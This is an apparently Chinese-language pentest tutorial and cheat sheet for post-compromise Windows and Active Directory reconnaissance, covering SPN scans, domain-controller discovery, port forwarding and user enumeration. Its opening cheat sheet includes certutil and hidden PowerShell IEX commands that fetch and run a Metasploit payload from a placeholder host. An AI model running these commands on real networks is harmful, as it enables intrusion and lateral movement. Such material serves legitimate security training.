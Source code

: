```yaml
---
title: Windows漫游
author: Admin
date: 2020-07-4 15:39:00 +0800
categories: [渗透测试, 内网]
tags: [MSF, Windows, Active Directory]
---
```


# 开宗明义
本篇文章不讲原理，仅介绍利用方式。

难记命令速查表

```shell
# 信息收集
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24		#netbios扫描
setspn -T domain -Q */*		#spn扫描
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com		#定位域控
nltest /domain_trusts		#域信任
type C:\Windows\system32\drivers\etc\hosts		#hosts信息

#端口转发
netsh interface portproxy add v4tov4 listenport=80 connectport=445 connectaddress=192.168.1.1 protocol=tcp		#本机监听80端口，转发192.168.1.1:445流量


# 文件下载
cmd.exe /c certutil -urlcache -split -f http://ip:port/msf.exe C:\ProgramData\a.exe
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://ip:port/a.exe'))"
```

# 信息收集
当打下某点后，应该进行以下信息收集：

1. 网络架构
2. 敏感信息

## 网络架构

### 是否出网

```shell
ping qq.com		#检测DNS是否解析，ICMP流量是否出网。
certutil -urlcache -split -f http://ip:port/msf.exe		#TCP、HTTP流量是否出网
nslookup qq.com 8.8.8.8		#UDP、DNS流量是否出网
```

### 网卡情况

判断是否多网卡

```shell
ipconfig /all
```

### 路由表

多网卡流量走向等信息

```shell
route print
```

### 端口信息

查看本机监听端口，以及其他主器与本机链接情况。

```shell
netstat -ao
```
常用参数：

* -a 显示全部
* -n 显示具体IP，不加显示hostname
* -o 显示PID

详细文档：[docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat](https://docs.microsoft.com/zh-cn/windows-server/administration/windows-commands/netstat)

### arp表

列当前子网存活

```shell
arp -a
```

### 本机hosts信息

某些VPN会写该文件

```shell
type C:\Windows\system32\drivers\etc\hosts
```

### DNS缓存

返回结果过长可以重定向到文件。

```shell
ipconfig /displaydns
```

### DNS域传送
```shell
nslookup
> server dns.domain.com
> ls domain.com
```

### 是否在域
```shell
#不带选项会显示当前域或工作组的计算器列表
net view
net view /domain[:domainname]

#定位域控制器
net group "domain controllers" /domain
nslookup -type=srv _ldap._tcp.dc._msdcs.domain.com
net time /domain
```

### SPN扫描

服务主体名称（`SPN: Service Principal Names`），当服务加入域时会自动注册。通过LDAP协议查询该信息，快速梳理运行重要服务的主机。

```
setspn -T domain -Q */*		#不加 -T 参数查询当前域，普通域用户权限
```

### 域信任

```shell
nltest /domain_trusts
```

### netbios扫描

获取主机名信息，以及定位找到多网卡主机。

```shell
# nmap
nmap -sU --script nbstat.nse -p 137 192.168.1.0/24

# msf
use auxiliary/scanner/netbios/nbname

# nextnet
nextnet 192.168.0.0/12
```
> nextnet github: [github.com/hdm/nextnet](https://github.com/hdm/nextnet)

### 全端口扫描器推荐

Goby: [gobies.org](https://gobies.org/)

## 敏感信息

### 用户
```shell
net user		#全部用户
query session		#用户登陆情况

net user /domain		#查看域用户
net group "domain admins" /domain		#域管
```


----
咕咕咕...

